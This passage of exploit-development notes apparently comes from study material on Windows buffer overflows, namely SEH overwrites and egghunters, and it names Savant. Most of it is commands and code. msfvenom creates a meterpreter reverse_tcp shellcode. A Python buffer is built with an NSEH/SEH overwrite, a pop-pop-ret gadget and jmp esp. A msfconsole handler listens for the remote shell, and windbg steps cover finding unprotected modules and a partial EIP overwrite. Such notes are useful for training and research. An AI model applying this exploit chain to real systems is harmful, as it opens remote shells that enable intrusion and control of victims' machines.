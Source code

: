 ```bash
01e1fc74 90909090 90909090 43434343 43434343
```

##### Create Shellcode

```bash
# Create shellcode
kali$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=443 -b "\x00\x02\x0A\x0D\xF8\xFD" -f python -v shellcode

# Edit payload
shellcode = b"\x90" * 20 # Increase the size of NOP
shellcode += b""
shellcode+= <python shellcode>
inputBuffer = b"\x41" * 124
inputBuffer+= pack("<L", (0x06eb9090)) # (NSEH)
inputBuffer+= pack("<L", (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
inputBuffer+= b"\x90" * 2
inputBuffer+= b"\x66\x81\xc4\x30\x08" # add sp, 0x830
inputBuffer+= b"\xff\xe4" # jmp esp to redirect execution to shellcode
inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode))
inputBuffer+= shellcode

# Start listener
kali$ sudo msfconosle -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST x.x.x.x; set LPORT 443; exploit"
```

## Overcoming Space Restrictions: EggHunters

##### Find Bad Characters

>   Bad characters can cause the application to NOT crash or cause an abnormal crash 

##### Find Modules without Protection

```bash
windbg> .load narly
windbg> !nmod
00400000 00452000 Savant /SafeSEH OFF # only this and address starts with null byte
...
```

##### Partial EIP Overwrite

```bash
# Edit Payload
inputBuffer = b"\x41" * size
inputBuffer += b"\x42\x42\x42" # 3 bytes because 1 is null byte

# Execute Payload
windbg> g
eip=00424242 ...

# Get opcode for pop ret sequence
kali$ msf-nasm shell
nasm> pop eax
00000000 58 pop eax
nasm> ret
00000000 C3 ret
nasm> quit

# Search for the sequence in windbg
windbg> lm m Savant
start    end
00400000 00452000
```